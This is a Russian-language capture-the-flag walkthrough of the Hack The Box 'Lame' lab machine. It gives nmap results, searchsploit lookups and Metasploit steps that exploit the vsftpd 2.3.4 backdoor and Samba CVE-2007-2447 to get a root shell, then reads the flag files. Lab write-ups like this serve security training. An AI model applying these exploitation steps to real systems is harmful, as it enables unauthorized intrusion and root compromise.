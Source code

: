 Для начала стоит просканировать nmap, выполнив команду

`nmap -sC -sV <ip> -oN <file>`

```
-sC - использование стандартных скриптов

-sV - обнаружение версий открытых портов

-oN - для вывода результатов сканирования в файл
```

Результат:
```
# Nmap 7.94SVN scan initiated Thu Apr 24 01:08:28 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN lame/nmap 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.069s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.20
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-24T01:09:47-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h00m36s, deviation: 2h50m00s, median: 23s
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 24 01:09:54 2025 -- 1 IP address (1 host up) scanned in 86.85 seconds

```

Теперь можно ответить на первые два вопроса:

**`How many of the `nmap` top 1000 TCP ports are open on the remote host?`**
- 4

**'What version of VSFTPd is running on Lame?'**
- 2.3.4

Для ответа на третий вопрос необходимо запустить метасплойт, найти и попытаться проэксплуатировать уязвимость для версии 2.3.4

С помощью `searchsploit` посмотрим какие есть уязвимости для `vsftpd`. Для версии 2.3.4 видим бэкдор `https://www.exploit-db.com/exploits/49757`.  (`searchsploit vsftpd 2.3.4 -w`)

![](../../src/images/Pasted%20image%2020250424101511.png)

Из вывода nmap ранее мы видим что подключиться к 21 порту можно анонимно.

Попробуем проэксплуатировать данную уязвимость, для этого запускаем метасплойт командой `msfconfig` и ищем уязвимости `search vsftpd 2.3.4`. 

`msf6 > search vsftpd 2.3.4` - поиск уязвимостей
`msf6 > use 0` - выбор уязвимости
`msf6 > show options` - просмотр опций
`msf6 > set RHOST <ip>` -задание адреса атакуемой машины
`msf6 > run` - эксплуатация уязвимости

![](../../src/images/Pasted%20image%2020250424102121.png)

Из вывода следует, что данная уязвимость недоступна.

**`There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?`**
- no

Для ответа на следующий вопрос, обратимся к выводу nmap 

**What version of Samba is running on Lame? Give the numbers up to but not including "-Debian".**
- 3.0.20

Для ответа на следующий вопрос предлагаю еще раз воспользоваться `searchsloit`

`searchsploit samba 3.0.20`
`searchsploit -p 16320`

**What 2007 CVE allows for remote code execution in this version of Samba via shell metacharacters involving the `SamrChangePassword` function when the "username map script" option is enabled in `smb.conf`?**
- CVE-2007-2447

![](../../src/images/Pasted%20image%2020250424105000.png)

Данная уязвимость позволяет выполнить обратное подключение. 

Откроем metasploit и аналогичным способом как выше, попробуем проэксплуатировать уязвимость. На этот раз успех. 

выполним команду id или whoami, чтобы узнать под каким пользователем мы вошли.

**Exploiting CVE-2007-2447 returns a shell as which user?**
- root

В папке home видим пользователей, один из низ makis, у которого есть файл user.txt, прочитаем его.

`cat home/makis/user.txt`

Содержимое файла и будет ответом на вопрос **Submit the flag located in the makis user's home directory.**

Ответ на вопрос **Submit the flag located in root's home directory.**
находится по адресу root/root.txt

![](../../src/images/Pasted%20image%2020250424133337.png)

На этом прохождение машины закончены, но остались еще вопросы. 

**We'll explore a bit beyond just getting a root shell on the box. While the official writeup doesn't cover this, you can look at [0xdf's write-up](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd) for more details. With a root shell, we can look at why the VSFTPd exploit failed. Our initial `nmap` scan showed four open TCP ports. Running `netstat -tnlp` shows many more ports listening, including ones on 0.0.0.0 and the boxes external IP, so they should be accessible. What must be blocking connection to these ports?**

Выполним данную команду `netstat -tnlp` и посмотрим сколько портов открыто. 

![](../../src/images/Pasted%20image%2020250424134801.png)

Ответом на данный вопрос будет являться - firewall

**When the VSFTPd backdoor is trigger, what port starts listening?**
Для ответа на этот вопрос, посмотрим на нагрузку в CVE-2011-2523 (`https://www.exploit-db.com/exploits/49757`) - telnet запускается на порту 6200

**When the VSFTPd backdoor is triggered, does port 6200 start listening on Lame?**
Для этого надо выполнить команду `nc 127.0.0.1 6200`

Теперь порт 6200 должен отображаться как LISTEN